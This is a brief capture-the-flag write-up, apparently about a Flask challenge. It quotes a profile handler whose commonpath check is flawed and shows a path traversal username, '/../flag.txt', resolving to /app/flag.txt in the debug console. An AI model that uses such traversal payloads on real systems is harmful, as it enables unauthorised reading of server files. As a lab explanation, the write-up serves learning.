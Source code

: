Path traversal with `username = "/../flag.txt"`

# Why

```python
    profiles_file = 'profile/' + session.get('username')

    if commonpath((app.root_path, abspath(profiles_file))) != app.root_path:
        return render_template('error.html', msg='Error processing profile file!', return_to='/profile')

    if request.method == 'POST':
        with open(profiles_file, 'w') as f:
            f.write(request.form.get('profile'))
        return redirect('/profile')
    
    profile=''
    if exists(profiles_file):
        with open(profiles_file, 'r') as f:
            profile = f.read()
```

The line `commonpath((app.root_path, abspath(profiles_file))) != app.root_path` is quite bad as `commonpath` returns the longest subpath, so we can easily manipulate that. Furthermore, abspath is not even used after ...

If we activate the flask debug mode and let application crash, we can test the payload

```
[console ready]
>>> app.root_path
'/app'
>>> profiles_file = 'profile/' + "/../flag.txt"
>>> commonpath((app.root_path, abspath(profiles_file)))
'/app'
>>> abspath(profiles_file)
'/app/flag.txt'
>>> 
```